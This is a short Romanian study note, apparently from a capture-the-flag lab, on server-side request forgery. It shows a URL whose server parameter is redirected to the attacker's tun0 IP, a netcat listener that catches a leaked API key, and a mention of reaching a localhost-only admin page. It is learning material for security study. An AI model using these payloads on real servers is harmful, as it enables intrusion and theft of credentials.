 SSRF - Server-Side Request Forgery 
Apare atunci cand aplicatia noastra trebuie sa foloseasca alte servici.
![[Pasted image 20240410172827.png]]
### Exemplu:
![[Pasted image 20240506134911.png]]
—
![[Pasted image 20240506160624.png]]
In unele cazuri cand vom lucra cu `Blind` vom avea nevoie sa prindem cererile de [[http]] putem face asta cu `Burp Collaborate` sau prin saitul `requestbin.com`.
Exemplu:
```bash
http://10.10.223.223:8087/download?server=secure-file-storage.com:8087&id=75482342
```
In exemplu de mai sus putem seta in loc de `secure-file-storage.com:8087` inlocuim cu `tun0` sau cu [[IP]] adresa dorita si portul pe care este un [[nc]] pentru a prinde traficul dorit.
```bash
http://10.10.223.223:8087/download?server=<IP_tun0>:<port>&id=75482342
```
Si pe machina ascultam portul:
```bash
nc -lvp 8087
```
Vom prinde datele in cazul nostru un [[API]] care este un `flag`
![[Pasted image 20240410181558.png]]
Daca dorim sa acesam resursele care sunt blocate pentru noi ca utilizator dar are aces `localhostul`.
![[Pasted image 20240410174939.png]]
Rezultatul ce era ascuns pe pagina de `admin` care are aces doar `localhost`. ;)
![[Pasted image 20240410175207.png]]

